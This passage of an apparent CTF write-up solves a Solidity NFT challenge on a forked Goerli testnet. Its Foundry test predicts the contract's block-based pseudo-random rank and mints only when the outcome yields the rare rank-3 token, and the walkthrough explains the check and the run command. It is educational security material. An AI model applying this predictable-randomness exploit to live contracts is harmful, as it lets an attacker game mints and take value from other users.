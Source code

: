 ```js

            // ---- hacking time ----
            uint256 jadu = uint256(
                keccak256(
                    abi.encode(mintedId + 1, address(hacker), block.number)
                )
            );
            if (jadu % 100 > 90) {
                //console.log(mintedId);
                //console.log(address(hacker));
                //console.log(block.number);
                //console.log(jadu);

                nft.mint{value: 1 ether}();
                console.log("Minted ID: ", nft.id());
                console.log("Minted Rank: ", nft.tokens(nft.id()));
                break;
            }

            currentBlockNum++;
        }

        // get rank from `mapping(tokenId => rank)`
        // (, bytes memory ret) = nft.call(
        //     abi.encodeWithSignature("tokens(uint256)", mintedId)
        // );
        // uint mintedRank = uint(bytes32(ret));
        mintedId = nft.id();
        uint mintedRank = nft.tokens(mintedId);

        assertEq(mintedRank, 3, "not Superior(rank != 3)");
    }
}
```

- We have our imports as usual. I'm importing the `INFT` interface as well. Then in the Test contract we are setting up the interface instance & hacker account. First we are forking `goerli` so that we can work locally with out api. Then we are loading the contract from the address like this `nft = INFT(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);`. Our goal is to mint the NFT within 100 blocks. So in the `test()` we have a `for` loop to check so. Now as I mentioned to mint type `3` we need the ans to be `>` 90. We can literally check each iteration to see the result of the hash. 
- We are taking a variable of type uint256 `jadu` & just copy pasting the check expect I'm using `abi.encode`, why? That's because `abi.encodePacked` does't add any padding & if 2 dynamic data types are together then it can lead to `hash collision` to high probability the original contract haven't used this. Moving on we are checking if the last 2 digits of the `jadu` var is `>` or not. Something `%` 100 == `last 2 digits`

![](assets/p-nft1.png)

- If so then only we are going to mint because as we already know the outcome so know we are going to mint type `3` NFT. The rest is for debugging purpose. The `assert` statement is checking if the type is `3` or not. So let's run it.
- Command:
```py
forge test --match-path test/hack.t.sol -vvv
```
